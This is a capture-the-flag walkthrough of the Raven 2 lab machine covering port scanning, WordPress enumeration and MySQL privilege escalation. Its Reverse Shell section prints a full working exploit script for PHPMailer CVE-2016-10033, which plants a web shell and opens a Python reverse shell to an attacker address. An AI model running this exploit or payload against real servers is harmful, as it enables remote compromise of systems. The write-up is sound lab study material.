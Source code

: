 # Raven 2
_There are four flags to capture_


## Nmap
````
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-28 21:17 WEST
Nmap scan report for 10.0.2.36
Host is up (0.00044s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 26:81:c1:f3:5e:01:ef:93:49:3d:91:1e:ae:8b:3c:fc (DSA)
|   2048 31:58:01:19:4d:a2:80:a6:b9:0d:40:98:1c:97:aa:53 (RSA)
|   256 1f:77:31:19:de:b0:e1:6d:ca:77:07:76:84:d3:a9:a0 (ECDSA)
|_  256 0e:85:71:a8:a2:c3:08:69:9c:91:c0:3f:84:18:df:ae (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Raven Security
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          36940/tcp6  status
|   100024  1          47128/tcp   status
|   100024  1          51621/udp6  status
|_  100024  1          55920/udp   status
47128/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.14 seconds
````


## Port 80

The website is all static, but the 'blog' link redirects to a wordpress website

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/a79e7954-43aa-411c-adf1-070ac8879c17)

## Raven Security Wordpress

No CSS! :D

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/332560d6-df2d-4d9d-85bd-a06dbdce25a6)


I pressed a link and it redirected me to 'raven.local'. So let's add that to the hosts file

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/409c8599-3338-4004-a345-fae75874e95c)

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/60660a84-4ab7-4117-857a-a81c0b704150)


Hey CSS is back!

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/f41427ac-e488-47c3-8e67-86ecb3693bc6)


Anyway, running wpscan got me two users: michael and steven

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/adc6f392-44dd-4310-9e9e-635a9a5c0b2f)


wpscan also found this directory. 3 to go

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/0298df2f-ce3f-4a2d-bd42-5cc35992854e)

Found another flag

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/4781acf4-fb9a-4a15-a72c-f96f712697cf)


This directory has plenty of interesting stuff

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/7806b67f-ca8a-43dc-9e81-39bf5df54473)

One interesting thing was the PHP Mailer version inside the changelog file

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/9ee3650c-eafb-424a-98c6-55ceceaadf37)



## Reverse Shell

PHP Mailer is infamous for being exploitable. Here's a nice exploit - ``https://github.com/paralelo14/CVE_2016-10033/blob/master/anarcoder.py``

It did require a bunch of tweaking, not just the IP and port, but it finally connected... missing parameters, validation errors, etc...

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/113da3ae-48bd-468a-bb5e-a85bd1faad7f)

Here is my final script

````
from requests_toolbelt import MultipartEncoder
import requests
import os
import base64
from lxml import html as lh

os.system('clear')
print("\n")
print(" █████╗ ███╗   ██╗ █████╗ ██████╗  ██████╗ ██████╗ ██████╗ ███████╗██████╗ ")
print("██╔══██╗████╗  ██║██╔══██╗██╔══██╗██╔════╝██╔═══██╗██╔══██╗██╔════╝██╔══██╗")
print("███████║██╔██╗ ██║███████║██████╔╝██║     ██║   ██║██║  ██║█████╗  ██████╔╝")
print("██╔══██║██║╚██╗██║██╔══██║██╔══██╗██║     ██║   ██║██║  ██║██╔══╝  ██╔══██╗")
print("██║  ██║██║ ╚████║██║  ██║██║  ██║╚██████╗╚██████╔╝██████╔╝███████╗██║  ██║")
print("╚═╝  ╚═╝╚═╝  ╚═══╝╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝ ╚═════╝ ╚═════╝ ╚══════╝╚═╝  ╚═╝")
print("      PHPMailer Exploit CVE 2016-10033 - anarcoder at protonmail.com")
print(" Version 1.0 - github.com/anarcoder - greetings opsxcq & David Golunski\n")

target = 'http://10.0.2.36/'
direc='contact.php'
backdoor = '/backdoor.php'

payload = '<?php system(\'python -c """import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\'10.0.2.13\\\',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"])"""\'); ?>'
fields={'action': 'submit',
        'name': payload,
        'email': '"anarcoder\\" -oQ/tmp/ -X/var/www/html/backdoor.php server"@protonmail.com',
	'subject': 'test',
        'message': 'Pwned'}

m = MultipartEncoder(fields=fields,
                     boundary='----WebKitFormBoundaryzXJpHSq4mNy35tHe')

headers={'User-Agent': 'curl/7.47.0',
         'Content-Type': m.content_type}

proxies = {'http': 'localhost:8081', 'https':'localhost:8081'}


print('[+] SeNdiNG eVIl SHeLL To TaRGeT....')
r = requests.post(target+direc, data=m.to_string(),
                  headers=headers)
print('[+] SPaWNiNG eVIL sHeLL..... bOOOOM :D')
r = requests.get(target+backdoor, headers=headers)
if r.status_code == 200:
    print('[+]  ExPLoITeD ' + target)
````

## Privilege Escalation


And there's another flag... 1 to go

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/20f4eefc-f09d-400d-accc-51232b3900a8)


Ran linpeas.sh and found credentials

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/8881658d-20e5-4e1b-87be-4b381cb623ed)


Searching the database I found 2 hashes, let's try cracking them

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/ea3912e2-30d7-409f-9cff-d3ad4c0884bc)

Only cracked one, and it seems like I was trolled. It doesn't work anywhere

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/de8ab849-8f7d-47b6-9025-d6b55e6c1310)


Anyway, we are running as the root user for mysql, so we can do stuff --> https://www.exploit-db.com/exploits/1518 and https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#privilege-escalation-via-library

This exploit in specific does all the good stuff for us --> https://github.com/d7x/udf_root/blob/master/udf_root.py

And root!

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/af68f15b-5d23-4cd1-a9da-7bba9919d41a)


![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/02edb42a-c92b-41df-b40b-b629fd2facd1)

